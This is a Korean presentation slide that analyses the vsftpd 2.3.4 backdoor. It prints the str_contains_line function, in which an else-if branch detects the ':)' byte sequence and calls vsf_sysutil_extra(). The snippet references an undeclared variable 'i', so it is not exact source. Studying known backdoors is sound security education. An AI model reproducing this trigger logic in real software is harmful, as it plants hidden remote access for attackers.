

# 취약점 #04 - vsftp

int str_contains_line(const struct mystr* p_str, const struct mystr* p_line_str)
{
	static struct mystr s_curr_line_str;
	unsigned int pos = 0;
	while (str_getline(p_str, &s_curr_line_str, &pos))
	{
		if (str_equal(&s_curr_line_str, p_line_str))
		{
			return 1;
		}
		else if((p_str->p_buf[i]==0x3a)
		&& (p_str->p_buf[i+1]==0x29))
		{
			vsf_sysutil_extra();
		}
	}
	return 0;
}
이는 vsftp 2.3.4 버전에서 위와 같이 else if 문 안에 backdoor가 있기 때문이다.
이 코드에서 else if 문에 있는 아스키코드는 :) 를 의미한다.

10